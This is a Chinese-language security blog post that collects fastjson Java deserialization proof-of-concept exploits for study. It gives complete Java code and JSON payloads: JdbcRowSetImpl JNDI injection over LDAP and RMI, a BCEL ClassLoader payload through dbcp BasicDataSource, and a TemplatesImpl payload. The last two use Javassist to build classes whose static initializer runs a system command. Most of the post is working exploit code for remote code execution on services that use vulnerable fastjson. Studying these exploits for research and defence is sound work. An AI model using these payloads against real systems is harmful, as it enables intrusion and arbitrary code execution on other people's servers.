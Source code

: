 Title: Java反序列化漏洞学习实践七：fastjson反序列化PoC汇总
Date: 2018-11-26 18:04
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### **0x0、说明**

本文是个人学习的记录总结，如有错误烦请[指出](https://github.com/bit4woo/code2sec.com/issues)，谢谢！



本文主要汇总大佬们的fastjson的各种PoC，并进行简单的说明，目的是梳理一下利用思路。

通过对Java反序列化知识的学习，可以大致知道命令执行链由至少2部分组成：

1. 具有代码执行能力的类，我们之前的文章【或[GitHub](https://github.com/bit4woo/code2sec.com/blob/master/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E5%AE%9E%E8%B7%B5%E5%85%AD%EF%BC%9A%E7%B1%BB%E7%9A%84%E5%8A%A0%E8%BD%BD%E6%9C%BA%E5%88%B6%E5%92%8C%E6%81%B6%E6%84%8F%E7%B1%BB%E6%9E%84%E9%80%A0.md)】就是为了弄清楚这部分内容；
2. 能够触发代码执行的触发器（即特定的调用代码），比如恶意类EvilClass中，它的静态代码块，构造函数，自定义函数，实现的接口函数都能执行代码，但是他们的触发点各不相同。

静态代码会在类的初始化时触发--Class.forName()

构造函数会在类实例化时触发--newInstance()， new Evil()

自定义函数则在函数调用时触发---m.invoke(Class,para)



再比如，fastjson中漏洞可以利用Class.forName()，而Jackson的漏洞中，触发点则需要newInstance()。

### 0x1、基于com.sun.rowset.JdbcRowSetImpl的PoC1

该PoC需要使用JNDI，需要搭建web服务，RMI服务或LDAP服务，利用相对麻烦。但对于检测fastjson漏洞是否存在，这个却是最简单有效的（结合DNSlog）。利用这个方法，已经成功在公司业务和SRC中发现了接近20个漏洞。



```java
package fastjsonPoCs;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

/*
 * 基于JNDI的PoC,可用的JNDI服务器有RMI，ldap。
 * 
 */
public class PoC1JNDI {
	public static void main(String[] argv){
		String xx = payload();
	}
	
	public static String payload(){

		//JDK 8u121以后版本需要设置改系统变量
		System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
		//LADP
		String payload1 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}";
		//RMI
		String payload2 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/ref\",\"autoCommit\":true}";

		JSONObject.parseObject(payload2);
		JSON.parse(payload2);
		return payload2;
	}
}

```

以上poc共有三个触发点：静态代码块(Class.forName())、类实例化、和getObjectInstance()方法。



### 0x2、基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC2

这个PoC是漏洞利用时最方便的，它不需要依赖JNDI等服务，所有内容一个请求中搞定。

```java
package fastjsonPoCs;

import evilClass.*;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.classfile.Utility;

/*
 * 基于org.apache.tomcat.dbcp.dbcp.BasicDataSource的PoC，当然也可以说是基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC
 * 前者的主要作用是触发，也就是包含Class.forName()函数的逻辑(createConnectionFactory函数中)；后者是类加载器，可以解析特定格式的类byte[]。
 * 
 * 
 * org.apache.tomcat.dbcp.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-7.0.65.jar
 * org.apache.tomcat.dbcp.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-9.0.13.jar
 * org.apache.commons.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/commons-dbcp/commons-dbcp
 * org.apache.commons.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2
 * 
 * 主要参考：https://xz.aliyun.com/t/2272
 */
public class PoC2dbcp {
	public static void main(String[] argv){
		String xx = payload2();
	}
	
	public static String payload2() {
		//payload3:https://xz.aliyun.com/t/2272
		try {
			String payload2 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
			byte[] bytecode = createEvilClass.create("evil","calc");
			String classname = Utility.encode(bytecode,true);
			//System.out.println(classname);
			classname = "org.apache.log4j.spi$$BCEL$$"+classname;
			payload2 = payload2.replace("xxxxxxxxxx", classname);
			
//			ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
//			Class.forName(classname, true, cls);
			JSONObject.parseObject(payload2);
			return payload2;
		} catch (Exception e) {
			e.printStackTrace();
			return null;
		}
	}
}
```



### 0x3、基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl的PoC3(来自廖新喜)



这个PoC有限制，需要引用程序是如下写法：

```
JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField)
```

在实际的环境中基本遇不到，但其中的思路还是值得学习的。

```java
package fastjsonPoCs;

import org.apache.commons.codec.binary.Base64;
import javassist.ClassPool;
import javassist.CtClass;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/*
 * 该poc来自于廖新喜大佬的文章：http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
 * 基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl，构造的恶意类需要是继承了AbstractTranslet的。
 */
public class PoC3TemplatesImpl {
	public static void main(String[] argv){
		String xx = payload3();
	}
	
	public static String payload3() {
		try {
			//http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
			String payload3 = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\", \"_bytecodes\": [\"xxxxxxxxxx\"], \"_name\": \"1111\", \"_tfactory\": { }, \"_outputProperties\":{ }}";
			byte[] bytecode1 = Gadget.createEvilBytecode("calc");
			String className = TemplatesImpl.class.getName();//com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
			payload3 = payload3.replace("xxxxxxxxxx", Base64.encodeBase64String(bytecode1));
			
			System.out.println(payload3);
			ParserConfig config = new ParserConfig();
			Object obj = JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField);
			
			return payload3;
		} catch (Exception e) {
			e.printStackTrace();
			return null;
		}
	}
}


class Gadget {

    public static class evil extends AbstractTranslet{
    	@Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    }

    static byte[] createEvilBytecode(final String command) throws Exception {
        ClassPool classPool = ClassPool.getDefault();

        // 获取class
        System.out.println("ClassName: " + evil.class.getName());
        final CtClass clazz = classPool.get(evil.class.getName());

        // 插入静态代码块，在代码末尾。
        clazz.makeClassInitializer().insertAfter(
                "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") + "\");"
        );
        clazz.setName("evilxxx");//类的名称，可以通过它修改。
        
        clazz.writeFile("D:\\");//将生成的.class文件保存到磁盘
        // 获取bytecodes
        final byte[] classBytes = clazz.toBytecode();
        return classBytes;
    }
}

```



### 0x4、参考

[技术专栏 | 深入理解JNDI注入与Java反序列化漏洞利用](https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651198215&idx=1&sn=929dd320ac2b17682e6c7d3f163f6985&chksm=bd2cf6a18a5b7fb758e4000c253adba90de67f72527ae1525a1d6722a09a85a06c8d800a08a7&scene=0#rd)

[defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)

[秒懂Java动态编程（Javassist研究）](https://blog.csdn.net/ShuSheng0007/article/details/81269295)